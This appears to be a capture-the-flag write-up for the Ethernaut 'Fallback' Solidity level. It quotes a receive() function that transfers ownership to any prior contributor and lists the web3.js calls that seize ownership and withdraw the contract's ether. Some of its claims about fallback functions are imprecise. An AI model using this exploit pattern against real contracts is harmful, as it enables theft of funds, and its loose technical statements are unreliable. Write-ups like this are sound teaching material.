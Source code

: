 First things first,

What is a fallback function?


In Solidity, a fallback function is an external function with neither a name, parameters, or return values.



Few notable properties of fallback function:

-> It is compulsory to mark it as external.

-> It should be marked as payable. If not, the contract will throw an exception if it receives ether without any data.

-> It is limited to 2300 gas if invoked by other functions.


The task:
![Fallback](https://user-images.githubusercontent.com/79459872/182846743-b0267e4b-9589-4968-9aa5-de4b7779f5a3.png)

1.Claim ownership of the contract.

2.Reduce its balance to 0.

//
Problem with contract:

Bad implementation of fall back functio i.e Changing contract ownership inside the fallback function.

Observe the condition seen in fallback function
 
 receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}

//
How to get ownership and winthdraw all the money out of the contract

 
Solution:

1.Your account address has to contribute to be mapped. 

await contract.contribute({value:3})

2.Trigger fallback function by sending transcation by using web3.js command.

await contract.sendTransaction({value:3})

Congrats!! u now own the contract.

3.Lastly to withdraw all the eth from the contract

await contract.withdraw()

------done------
